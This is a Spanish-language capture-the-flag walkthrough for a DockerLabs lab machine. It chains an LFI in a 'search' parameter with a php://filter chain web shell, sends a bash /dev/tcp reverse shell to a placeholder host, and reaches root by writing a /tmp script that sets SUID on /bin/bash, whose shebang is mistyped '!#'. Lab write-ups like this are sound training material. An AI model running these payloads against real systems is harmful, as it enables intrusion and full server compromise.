






# lfi.elf

Maquina lfi.elf de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil



## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 13:28 -03
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds

```

No se ve nada interesante por lo que continuaremos por el navegador.

#### PUERTO 80:



No tiene nada interesante, ya que al entrar a "Mission Overview" hay varios botones pero ninguno tiene utilidad. Ahora acudiremos a hacer fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,sh,py,js,elf,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 978]
/.html                (Status: 403) [Size: 275]
/faq.php              (Status: 200) [Size: 1118]
/login.php            (Status: 200) [Size: 1155]
/downloads.php        (Status: 200) [Size: 1001]
/pages                (Status: 301) [Size: 308] [--> http://172.17.0.2/pages/]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/report.php           (Status: 200) [Size: 941]
/secret.txt           (Status: 200) [Size: 323]
Progress: 50172 / 1764488 (2.84%
```

Como vemos hay un "secret.txt" que solo nos dice que hay un usuario llamado "lin", pero lo mas interesante es que todas las paginas estan hechas en _php_, y como sabemos, pueden ocultar parametros. Ahora comenzaremos a buscar parametros por el `index.php`, para hacerlo usaremos `wfuzz` de la siguiente manera:

```css
wfuzz --hl=13 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=/etc/passwd"
```

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?FUZZ=/etc/passwd
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000000027:   200        32 L     47 W       1257 Ch     "search" 
```

Como vemos nos ha encontrado que el parametro "search" permite un LFI.

Al poner `?search=/etc/passwd` en el "index.php" podemos confirmar que hay un usuario "lin" en el servidor. Normalmente _si el puerto 22 estuviera abierto_ podriamos intentar leer la clave privada de el usuario "lin", pero como en este caso no esta abierto el ssh, por lo que tendremos que probar el [Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md), si esto nos funciona significara que podremos ejecutar comandos en el sistema. Para confirmarlo solo pegamos uno en el parametro "search" y si nos da resultado significa que podremos ejecutar comandos.



Como vemos ha funcionado, entonces ahora podremos ejecutar comandos en el sistema usando el script [php\_fileter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) de la siguiente manera:

```css
python3 php_filter_chain_generator.py --chain "<?php system('ls -la'); ?>"
```

nos copiamos el resultado y se lo damos al parametro search



Para verlo asi entramos al codigo fuente y ya podremos ejecutar comandos, el problema es que no nos podemos enviar una reverse shell porque si el comando es muy largo el navegador no lo interpreta: 

## INTRUSION

Para poder ganar acceso, nos tenemos que "crear" un parametro cmd, para hacerlo tenemos que poner lo siguiente:

```css
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

y para usarlo seria así:

```css
http://172.17.0.2/?cmd=whoami&search={RESULTADO DEL COMANDO}
```

Una vez hecho eso podremos ejecutar comandos con la longitud que queramos y seria mas fácil enviar la reverse shell. Para enviarla sin errores seria asi:

```css
bash -c 'bash -i >%26 /dev/tcp/$IP/$PORT 0>%261'
```

Y listo, _estamos dentro_

## TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty tenemos que ejecutar los siguientes comandos apenas ganamos acceso:

```css
script /dev/null -c bash #una vez ejecutado presionamos ctrl+Z
stty raw -echo;fg
           reset xterm #damos al enter
export TERM=xterm && export SHELL=bash
```

## USUARIO WWW-data

Ahora mismo somos el usuario www-data, estando dentro iremos ejecutando `cd ..` y en cada directorio que vayamos para atras ponemos un `ls -la` esto para ver si hay algo mas u oculto dentro del servidor.

```css
www-data@9271e981b3a1:/var/www/html$ cd ..
www-data@9271e981b3a1:/var/www$ ls -la
total 0
drwxr-xr-x 1 root root  40 Aug 16 17:38 .
drwxr-xr-x 1 root root  96 Aug 16 13:53 ..
drwxr-xr-x 1 root root  34 Aug 16 17:37 .secret_www-data
drwxr-xr-x 1 root root 162 Aug 16 14:53 html
www-data@9271e981b3a1:/var/www$ 
```

Como vemos, haciendo eso ya encontramos una carpeta llamada ".secret\_www-data", a la cual entramos y ejecutamos `ls -la`, vemos una carpeta oculta llamada `.passwd` la cual tiene un archivo que contiene la contraseña del usuario "lin", ponemos `su lin` y su contraseña y listo.

## USUARIO LIN

Ahora somos el usuario lin.

Luego de buscar un rato y no encontrar nada, voy a la home de "lin" y encuentro un script de python, reviso el codigo y me encuentro esto:

```python
import os
import subprocess
import subthreads

def display_system_info():
    print("[INFO] Sistema y Entorno:")
    print(f"  Sistema Operativo: {os.uname().sysname} {os.uname().release}")
    print(f"  Arquitectura: {os.uname().machine}")
    try:
        print(f"  Usuario Actual: {os.getlogin()}")
    except OSError:
        print("  Usuario Actual: No disponible")

def perform_task():
    print("[INFO] Realizando tarea...")
    
    print("  Tarea completada.")

def main():
    while True:
        print("[MENU] Elija una opción:")
        print("  1. Mostrar información del sistema")
        print("  2. Realizar tarea")
        print("  3. Ejecutar módulo subthreads")
        print("  4. Salir")
        option = input("  Opción: ")
        
        if option == '1':
            display_system_info()
        elif option == '2':
            perform_task()
        elif option == '3':
            subthreads.execute()
        elif option == '4':
            print("Saliendo...")
            break
        else:
            print("Opción no válida. Inténtelo de nuevo.")

if __name__ == "__main__":
    main()
```

Como vemos tiene la libreria "subthreads" que es media rara, ya que lo primero que hace es esto `subthreads.execute()` por lo que buscamos su libreria para revisarla:

```css
find / -name "subthreads.*" 2>/dev/null
```

```css
lin@9271e981b3a1:~$ find / -name "subthreads.*" 2>/dev/null
/usr/local/lib/python3.12/dist-packages/__pycache__/subthreads.cpython-312.pyc
/usr/local/lib/python3.12/dist-packages/subthreads.py
lin@9271e981b3a1:~$ 
```

Como vemos hay un "subthreads.py", por lo que lo revisamos con cat y vemos lo siguiente:

```python
import subprocess

def execute():
    try:
        # Intenta ejecutar el archivo en /tmp
        result = subprocess.run(['/usr/bin/sudo', '/tmp/script.sh'], capture_output=True, text=True)
        
        # Verifica si el comando se ejecutó correctamente
        if result.returncode != 0:
            print("Error: No se pudo ejecutar el archivo.")
    except FileNotFoundError:
        # Muestra un mensaje genérico si el archivo no se encuentra
        print("Error: El archivo no se encuentra en /tmp.")
    except Exception as e:
        # Muestra un mensaje genérico para cualquier otra excepción
        print("Error: Ocurrió un problema al intentar ejecutar el archivo.")
```

Como vemos, el codigo ejecuta un archivo en "/tmp/" llamado "script.sh"; pero si el archivo no existe muestra un error que dice `Error: No se pudo ejecutar el archivo.`, sabiendo esto nos creamos un script en "/tmp" llamado "script.sh" y le metemos el siguiente codigo:

```bash
!#/bin/bash

chmod u+s /bin/bash
```

Le damos permisos al script con `chmod +x /tmp/script.sh` y ahora simplemente ejecutamos el script de python elijiendo la opcion 3. Luego de hacer todo esto ejecutamos `bash -p` y listo, _somos root_.



Gracias por leer.
